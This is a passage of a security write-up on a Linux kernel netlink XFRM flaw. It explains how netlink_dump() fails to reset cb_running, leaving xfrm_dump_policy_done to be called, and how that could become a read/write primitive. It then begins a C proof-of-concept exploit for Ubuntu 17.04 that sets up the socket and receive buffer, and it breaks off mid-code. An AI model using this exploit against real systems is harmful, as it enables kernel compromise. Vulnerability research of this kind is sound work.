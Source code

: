 

When netlink_skb_set_owner_r is called (like skb_set_owner_r) it updates the sk_rmem_alloc.

netlink_dump():


In above snippet we can see that netlink_dump() check fails when sk->sk_rcvbuf is smaller than sk_rmem_alloc (notice that we can control sk->sk_rcvbuf via stockpot).

When this condition fails, it jumps to the end of a function and quit with failure and the value of cb_running doesn’t changed to false.

nlk->cb_running is true, thus xfrm_dump_policy_done() is being called.



nlk->cb.done points to xfrm_dump_policy_done, it worth noting that this function handles a doubly linked list, so if we can tweak this vulnerability to reference a controlled buffer, we could have a read/write what/where primitive.

## Proof of Concept

The following proof of concept is for Ubuntu 17.04.

```
#define _GNU_SOURCE
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <asm/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <linux/netlink.h>
#include <linux/xfrm.h>
#include <sched.h>
#include <unistd.h>

#define BUFSIZE 2048


int fd;
struct sockaddr_nl addr;

struct msg_policy {
    struct nlmsghdr msg;
    char buf[BUFSIZE];
};

void create_nl_socket(void)
{
    fd = socket(PF_NETLINK,SOCK_RAW,NETLINK_XFRM);
    memset(&addr,0,sizeof(struct sockaddr_nl));
    addr.nl_family = AF_NETLINK;
    addr.nl_pid = 0; /* packet goes into the kernel */
    addr.nl_groups = XFRMNLGRP_NONE; /* no need for multicast group */

}

void do_setsockopt(void)
{
    int var =0x100;

    setsockopt(fd,1,SO_RCVBUF,&var,sizeof(int));
}

struct msg_policy *init_policy_dump(int size)
```